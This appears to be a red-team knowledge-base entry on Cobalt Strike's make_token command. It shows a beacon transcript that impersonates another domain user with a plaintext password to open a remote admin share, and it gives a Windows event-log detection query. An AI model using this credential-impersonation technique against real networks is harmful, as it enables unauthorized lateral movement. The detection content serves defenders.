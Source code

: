 # Make Token
The Cobalt Strike command `make_token` uses the [LogonUserA](https://docs.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-logonusera) to get a process handle with the users token. For that it requires the username, domain and plaintext password and the logon type **LOGON32_LOGON_NEW_CREDENTIALS**.

From MS:
> This logon type allows the caller to clone its current token and specify new credentials for outbound connections. The new logon session has the same local identifier but uses different credentials for other network connections.

The local identifier stays the same since it uses the own token!  
* `getuid` stays  **EDU\john**
* network connections use new user token
* no local admin privs are required
* To revert the token, use `rev2self`.

``````beacon
beacon> getuid
[*] You are EDU\john
beacon> ls \\srv2\c$
[-] could not open \\srv2\c$\*: 5
beacon> make_token EDU\doe Passw0rd1
[+] Impersonated EDU\john
beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````


## Detection
* Event `4624: An account was successfully logged on` with Logon Type: `LOGON32_LOGON_NEW_CREDENTIALS` (type `9`).  
>event.code: 4624 and winlog.event_data.LogonType: 9
* Windows commands such as RunAs will also generate the same event.
* Records contain the user who ran the command, the user they're impersonating, and the process it was run from.


## Tools
########
########


```meta
ttp: T1000
requirements: admin
results: 
description: 
```